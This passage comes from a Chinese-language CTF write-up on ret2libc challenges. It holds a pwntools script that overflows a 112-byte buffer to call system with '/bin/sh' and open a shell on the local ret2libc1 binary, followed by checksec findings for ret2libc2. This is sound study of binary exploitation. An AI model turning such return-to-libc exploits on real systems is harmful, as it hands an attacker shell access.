 
由此可以开始构造payload，将main的返回地址指向system调用，然后利用数据段中存在的'bin/sh'作为传参，但需要注意，因为system是通过call调用的，因此需要先加入一个伪造的返回地址，然后再传入参数
```python
from pwn import *

offset = 112

system_addr = 0x08048460
bin_sh_addr = 0x08048720

proc = process("./pwn/ret2libc1/ret2libc1")
proc.sendline(b'A'*offset\
               + p32(system_addr) \
                + b'AAAA' + p32(bin_sh_addr))
proc.interactive()
```
运行一下

![Alt text](image/ret2libc1_res.png)

成功


# ret2libc2

首先该文件的检查安全机制

利用pwntools中带有的checksec检查ret2text

![Alt text](image/ret2libc2_checksec.png)

可以看到：
* 架构：32位
* RELRO：部分开启
* stack canary：没有开启
* 数据段不可执行：开启
* 地址无关：没有开启
